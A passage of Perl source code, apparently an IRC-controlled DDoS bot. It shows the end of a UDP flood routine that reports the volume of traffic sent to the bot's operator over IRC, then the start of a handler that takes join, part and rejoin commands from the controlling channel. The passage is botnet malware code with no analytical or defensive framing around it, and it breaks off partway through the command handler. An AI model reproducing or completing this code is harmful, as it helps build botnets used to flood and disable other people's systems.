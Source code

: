             $bytes{icmp} = $2 * $pacotes{icmp}; 

            $bytes{o} = $2 * $pacotes{o}; 

            $bytes{udp} = $2 * $pacotes{udp}; 

            $bytes{tcp} = $2 * $pacotes{tcp}; 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4[4@3UDP-ZR12]12 12REZULTAT4 ".int(($bytes{icmp}+$bytes{igmp}+$bytes{udp} + $bytes{o})/1024)." 12KB IN4 ".$dtime." 12SECUNDE PE4 ".$1."."); 

         } 

###################### 

#  End of Udpflood   # 

###################### 

         exit; 

      } 

   } 

  

sub ircase { 

   my ($kem, $printl, $case) = @_; 

   if ($case =~ /^join (.*)/) { 

      j("$1"); 

   } 

   if ($case =~ /^part (.*)/) { 

      p("$1"); 

   } 

   if ($case =~ /^rejoin\s+(.*)/) { 

      my $chan = $1; 

      if ($chan =~ /^(\d+) (.*)/) { 

         for (my $ca = 1; $ca <= $1; $ca++ ) { 

            p("$2"); 

            j("$2"); 

         } 

      } else { 

         p("$chan"); 

         j("$chan"); 

      } 
